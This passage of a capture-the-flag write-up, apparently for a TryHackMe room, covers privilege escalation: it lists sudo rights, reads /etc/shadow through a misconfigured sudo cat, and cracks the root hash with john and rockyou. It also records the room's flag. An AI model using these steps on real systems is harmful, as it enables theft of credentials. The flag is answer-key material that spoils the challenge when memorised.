 Now, we need to escalate our privileges.

Answer the questions below

| Question                                                                   | Answer | SS  |
| -------------------------------------------------------------------------- | ------ | --- |
| Find a form to escalate your privileges.  <br>What is the root's password? |        |     |
```
sudo -l
```
![[Pasted image 20240316200714.png]]

```
sudo /bin/cat /etc/shadow
```
![[Pasted image 20240316201752.png]]

*Save the pass to a file and crack it using john:*

```
john root_bruteit --wordlist=/usr/share/wordlists/rockyou.txt
```
![[Pasted image 20240316201707.png]]


| Question | Answer                    | SS                                   |
| -------- | ------------------------- | ------------------------------------ |
| root.txt | THM{pr1v1l3g3_3sc4l4t10n} | ![[Pasted image 20240316202216.png]] |
